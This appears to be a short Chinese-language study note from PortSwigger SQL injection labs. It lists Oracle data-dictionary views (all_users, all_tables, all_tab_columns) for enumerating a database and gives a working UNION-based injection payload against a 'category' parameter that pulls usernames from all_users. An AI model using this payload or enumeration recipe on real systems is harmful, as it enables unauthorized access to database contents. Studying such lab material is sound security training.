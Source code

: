 | 目标                                  | 视图名                      | 说明                                          |
| ------------------------------------- | --------------------------- | --------------------------------------------- |
| 🔍 当前用户名（当前 schema）           | `SELECT user FROM dual`     | Oracle 中“库”和“用户”本质上是一回事（schema） |
| 📦 所有用户（相当于 MySQL 的“数据库”） | `all_users` / `dba_users`   | 所有 schema 名（需要 DBA 权限）               |
| 📁 当前用户的表                        | `user_tables`               | 当前用户自己创建的所有表                      |
| 📁 所有可访问的表                      | `all_tables`                | 当前用户“能看到”的所有表（包括自己和别人的    |
| 📄 当前表的字段                        | `user_tab_columns`          | 当前用户表的字段信息                          |
| 📄 所有可访问表的字段                  | `all_tab_columns`           | 当前用户可见所有表的字段信息                  |
| 库 表 字段                            | user table_name column_name |                                               |

先测试出字段 ![image-20250711184701760](portswigger.assets/image-20250711184701760.png)

查看一下库名（用户名）：**category=Lifestyle' union select '1',username from all_users--**
